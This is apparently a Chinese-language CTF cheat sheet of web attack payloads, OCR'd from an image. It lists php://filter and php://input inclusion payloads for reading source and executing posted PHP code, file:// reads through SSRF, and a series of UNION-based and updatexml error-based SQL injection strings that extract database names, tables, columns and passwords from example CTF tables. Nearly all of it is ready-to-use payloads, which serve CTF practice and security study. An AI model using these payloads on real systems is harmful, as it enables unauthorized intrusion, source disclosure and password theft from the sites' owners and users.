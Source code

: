 ## file://

条件:存在ssrf curl漏洞触发

file:///var/www/html/flag

## php://
## php://filter读取源码

```
?file=php://filter/read=convert.base64-encode/resource=index.php
?action=php://filter/read=string.toupper|string.rot13/resource=index.php
?action=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=index.php
```
## php://input执行代码

- 条件:allow_url_include 为 on ，可以访问请求的原始数据的只读流, 将post请求中的数据作为 PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为 php://input ,同时post想设置的文件内容，php执行时会将post内容当作文件内容。

- 格式：
```
GET: ?text=php://input
POST : xxxx
```

## SQL注入思路

- 字符型还是整数型
- 是否为堆叠注入
> show databases;   获取数据库名
> show tables;  获取表名
> show columns from `table_name`; 获取列名
例子：    
1';show tables;#
1';show columns from `table_name`;#
## SQL手工注入语句

```
1' union select 1,database(),3# 
爆出数据库 
1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
爆出表名 geekuser,l0ve1ysq1
1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
爆出字段名 id,username,password
1' union select 1,database(),group_concat(id,username,password) from l0ve1ysq1 #
爆出字段内容
报错注入语句
               1 and updatexml(1,concat(0,database(),0,user(),0,@@datadir),1)#
?username=admin%27or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(left(password,30))from(H4rDsq1)),0x7e),1))%23
right()
```
